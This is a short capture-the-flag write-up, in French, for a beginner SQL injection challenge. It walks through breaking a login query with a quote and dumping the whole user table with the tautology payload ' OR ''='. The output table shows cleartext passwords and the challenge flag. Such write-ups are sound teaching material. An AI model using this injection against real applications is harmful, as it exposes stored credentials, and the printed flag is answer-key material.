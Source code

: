 # Writeup - Injection SQL #0: Toute la vérité

En faisant une première requête, on peur voir que le site web nous affiche son texte complet. La requête dans laquelle on injecte est la suivante:

```sql
SELECT * FROM challenge0 WHERE username='NOTRE_INPUT';
```

Comme il s'agit d'un challenge d'injection SQL, on peut présumer que notre entrée n'est pas bien assainie. Essayons donc des caractère spéciaux comme `'`. Nous obtenons une erreur de syntaxe SQL, ce qui signifie que ce que nous entrons n'est pas traité exclusivement comme de la donnée et qu'on peut affecter la sémantique de la requête.

Il serait intéressant de voir tout le contenu de la table `challenge0`. Pour ce faire, il faut injecter quelque chose qui rendra la condition toujours vraie. Par exemple, `' OR ''='` (il faut tenir compte de la requête d'origine. On utilise les `'` de la requête originale pour fermer la première et la dernière chaîne vide). Comme la chaîne de caractères vide sera toujours égale à elle-même et que `x OR True` est toujours vrai, on obtient une tautologie et le site nous montre toutes les entrées de la table

```sql
 -- Requête résultante
SELECT * FROM challenge0 WHERE username='' OR ''='';
```

|Id |Username| Password |
|---|--------|----------|
|1	|test	| PleaseDon'tStorePasswordInCleartextLikeThis|
|2	|admin	| SeriouslyNeverDoThis,It'sBad|
|3	|united | HashPasswordsWithAProperCryptographicHashAndASalt|
|4	|You won't be able to guess my name BSh8dn_fdHs	| The flag: **FLAG-One_SELECT_to_bring_them_all_YbHKhnADUbc**|
